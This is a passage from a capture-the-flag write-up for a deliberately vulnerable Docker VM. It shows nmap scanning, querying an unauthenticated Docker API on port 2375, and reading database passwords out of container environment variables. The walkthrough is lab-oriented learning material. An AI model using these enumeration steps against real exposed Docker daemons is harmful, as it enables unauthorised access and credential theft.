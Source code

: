 # Vulnerable-Docker-VM
This is a writeup for the EASY mode of the Down By The Docker CTF by [notsosecure.com](https://www.notsosecure.com/vulnerable-docker-vm/)



## First things first

We got an IP of the server - so lets scan it with nmap:

```bash
nmap -T4 -p- -oN Documents/ports 192.168.253.129
```

Reviewing the results we got:

|PORT    | STATE |SERVICE|
|--------|-------|-------|
|22/tcp  | open  |ssh|
|2375/tcp| open  |docker|
|8000/tcp| open  |http-alt|

The 8000 port is a wordpress site, but we're interested, right now, on the docker's one.

HTTP OPTIONS request to port 2375, reveal:
```bash
Api-Version → 1.30
...
Server → Docker/17.06.0-ce (linux)
...
```

This is Docker API version 1.30. Here you can find its documentation:

https://docs.docker.com/engine/api/v1.30/


OK, apperantly the server expose to us the docker deamon itself, so our first goal to reach any kind of control is fullfilled. 


**A small side note**, for everyone who's not familiar with the docker API: Now we realize that we probably passed the main vulnerability: The docker deamon is the heart of this server and challenge - if we can send it commands - we won. So this is not really CTF per se, it is more kind of navigating ourself through the docker configuration and misconfiguration.


Next, lets check this out.


## Checking what we're dealing with
This is my first time with the docker API but I do know a little bit about docker and docker commands, so let see if we can get anything special - lets try to get a list of the containers. I used Postman to send HTTP request:
```bash
http://192.168.253.129:2375/containers/json
```
And indeed, we get a list of the running containers inside the server:

| Name                  | Image                      |
|-----------------------|----------------------------|
| content_wordpress_1   | wordpress:latest           |
| content_db_1          | mysql:5.7                  |
| content_ssh_1         | jeroenpeeters/docker-ssh   |


We can now try to inspect each container to search for any interesting variables:

#### content_wordpress_1:

```bash
http://192.168.253.129:2375/containers/content_wordpress_1/json
```
```javascript
{
...
"HostConfig": {
        ...
        "PortBindings": {
            "80/tcp": [
                {
                    "HostIp": "",
                    "HostPort": "8000"
                }
            ]
        },
        ...
}
...
"Env": [
            ...
            "WORDPRESS_DB_HOST=db:3306",
            "WORDPRESS_DB_USER=wordpress",
            "WORDPRESS_DB_PASSWORD=WordPressISBest",
            ...
        ],
...
}
```

Enviroment variables holds several key values necessary for the containers' service. Each container type has its own variables. Here we can see the site database host, its user and password.

We'll get to the HostConfig shortly.


#### content_db_1:

```bash
http://192.168.253.129:2375/containers/content_db_1/json
```
```javascript
{
...
"Env": [
            ...
            "MYSQL_ROOT_PASSWORD=Peaches123",
            "MYSQL_PASSWORD=WordPressISBest",
            "MYSQL_USER=wordpress",
            "MYSQL_DATABASE=wordpress",
            ...
        ],
...
}
```

Each mysql container needs to be initialized with root password, this variable is mandatory. Also we can see here that the container was created with the wordpress database and user.

#### content_ssh_1:

```bash
http://192.168.253.129:2375/containers/content_ssh_1/json
```
```javascript
{
...
"Env": [
            "AUTH_MECHANISM=noAuth",
            "CONTAINER=content_db_1",
            "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
            "CONTAINER_SHELL=bash",
            "KEYPATH=./id_rsa",
            "PORT=22",
            "HTTP_ENABLED=true",
            "HTTP_PORT=8022"
        ],
...
}
```

This is interesting, seemingly we have a SSH container that connects us to the mysql container. The `HTTP_ENABLED` and `HTTP_PORT` variables are also interesting - do we have a SSH web API?

Checking http://192.168.253.129:8022/ reach us nowhere - why it's not working? 

Nor the SSH 22 port: It seems as if no authentication is needed, according to the `AUTH_MECHANISM` - but we still get:
```bash
PS C:\> ssh 192.168.253.129
user@ad@192.168.253.129's password:
Permission denied, please try again.
```

So, what's going on?

## Few seconds on docker's ports
Remember `HostConfig` we've noticed in the wordpress container's inspect request? We can see there a value named `PortBindings`. This value tells us that the docker deamon binds the host machine's 8000 port to the container's 80 port. Every request sent to the host machine to port 8000 is tunneled to port 80 on the wordpress container. This is why we can view the site when we go to http://192.168.253.129:8000. 

On the content_ssh_1 container, the `PortBindings` is empty - so no external request is tunneled to this container. 
